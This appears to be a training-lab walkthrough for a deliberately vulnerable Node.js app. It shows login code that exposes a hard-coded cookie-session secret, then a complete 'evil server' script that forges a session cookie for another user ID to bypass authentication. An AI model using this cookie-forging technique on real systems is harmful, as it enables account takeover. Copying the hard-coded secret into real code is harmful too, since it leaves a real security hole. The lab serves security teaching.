





# KBID xxx - Auth-bypass

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```


Now that the app is running let's go hacking!


## Reconnaissance

The application suggests we login with admin/admin as username/password.



Once we login we see an API key.



Let's have a look at the source code:

```javascript
app.all("/login", (req, res) => {
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  const api = "SELECT * FROM preferences WHERE UserId = ?";
  if (req.method === "POST") {
    db.get(sql, [req.body.username, req.body.password], (err, row) => {
      if (row) {
        req.session.userId = row.UserId;
        req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
        req.session.loggedIn = true;
        db.get(api, [req.session.userId], (err, row) => {
          res.render("home.ejs", { api: row.API_key });
        });
      } else {
        res.render("index.ejs");
      }
    });
  } else {
    db.get(api, [req.session.userId], (err, row) => {
      res.render("home.ejs", { api: row.API_key });
    });
  }
});
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```javascript
const cookieSession = require("cookie-session");
const express = require("express");
const cookieParser = require("cookie-parser");
const app = express();

app.use(express.static(__dirname));
app.use(cookieParser());
app.use(
  cookieSession({
    name: "session",
    keys: ["e5ac-4ebf-03e5-9e29-a3f562e10b22"],
    httpOnly: false,
    maxAge: 86400000,
  })
);

app.get("", (req, res) => {
  req.session.userId = 2; // CHANGED THE USER ID
  req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
  req.session.loggedIn = true;
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express ejs cookie-session cookie-parser
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ node evil_server.js
```



Now we can replace our original cookie with the tampered cookie.



Refresh the page:



## Additional sources




